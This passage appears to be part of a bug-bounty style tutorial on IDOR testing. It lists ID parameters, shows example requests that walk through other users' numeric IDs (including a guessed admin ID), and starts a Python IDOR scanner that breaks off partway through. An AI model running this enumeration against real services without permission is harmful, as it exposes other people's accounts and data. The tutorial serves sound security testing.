 #### Parameter Identification
```bash
# Common IDOR parameters
id=
user_id=
account_id=
doc_id=
file_id=
order_id=
invoice_id=
message_id=
post_id=
comment_id=
```

#### Basic IDOR Testing
```bash
# Step 1: Identify your own resource ID
GET /api/user/profile HTTP/1.1
Response: {"id": 123, "username": "testuser", "email": "test@example.com"}

# Step 2: Try accessing other IDs
GET /api/user/122 HTTP/1.1  # Previous user
GET /api/user/124 HTTP/1.1  # Next user
GET /api/user/1 HTTP/1.1    # Potential admin
GET /api/user/100 HTTP/1.1  # Random user
```

### 2. 🤖 Automated Detection

#### IDOR Scanner Tool
```python
#!/usr/bin/env python3
"""
Advanced IDOR Scanner

Author: LakshmiKanthanK(letchupkt)
Portfolio: https://letchupkt.vgrow.tech
"""

import requests
import re
import json
import threading
from urllib.parse import urlparse, parse_qs, urlencode, urlunparse
import time

class IDORScanner:
    def __init__(self, target_url, auth_headers=None):
        self.target_url = target_url
        self.auth_headers = auth_headers or {}
        self.session = requests.Session()
        self.session.headers.update(self.auth_headers)
        self.vulnerabilities = []
        self.tested_endpoints = set()
    
    def extract_ids_from_response(self, response_text):
        """Extract potential IDs from response"""
        id_patterns = [
            r'"id":\s*(\d+)',
            r'"user_id":\s*(\d+)',
            r'"account_id":\s*(\d+)',
            r'"doc_id":\s*(\d+)',
            r'id=(\d+)',
```